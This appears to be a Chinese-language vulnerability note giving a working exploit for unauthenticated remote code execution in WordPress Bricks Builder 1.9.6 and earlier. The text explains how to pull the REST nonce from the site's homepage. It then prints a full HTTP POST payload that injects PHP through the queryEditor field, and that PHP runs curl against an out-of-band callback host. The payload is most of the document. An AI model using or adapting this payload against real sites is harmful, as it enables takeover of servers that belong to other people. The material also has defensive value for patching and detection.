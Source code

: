 ### 漏洞描述：

由于prepare_query_vars_from_settings()中的eval函数执行用户控制的输入，由于权限检查不当，未经身份验证的用户可利用该函数执行任意 PHP 代码。

使用GET方法访问/wordpress/根路径，在返回的HTML文件中查看bricksData参数内包含的wpRestNonce值，得到Nonce后构造数据包发送rce请求。

### 影响版本：‏‍‎‌‏‌‏‌‎‎‌‏‎‏‌‌‎‌‏‌‏‏‌‌‏‍‎‏‏‌‏‌‍​‎‌‏‎‏‎‍‍‏‎‎‏

WordPress Brick Builder <=1.9.6

### Payload：

```jsx
POST /wp-json/bricks/v1/render_element HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:58.0) Gecko/20100101 Firefox/58.0
Connection: close
Content-Length: 401
Content-Type: application/json
Accept-Encoding: gzip, deflate

{
"postId": "1",
"nonce": "c5b5949**",
"element": {
"name": "container",
"settings": {
"hasLoop": "true",
"query": {
"useQueryEditor": true,
"queryEditor": "ob_start();echo curl cnc4ej5blq62an78ck6giyhcffmdr5t56.oast.pro;$output=ob_get_contents();ob_end_clean();throw new Exception($output);",
"objectType": "post"
}
}
}
}
```
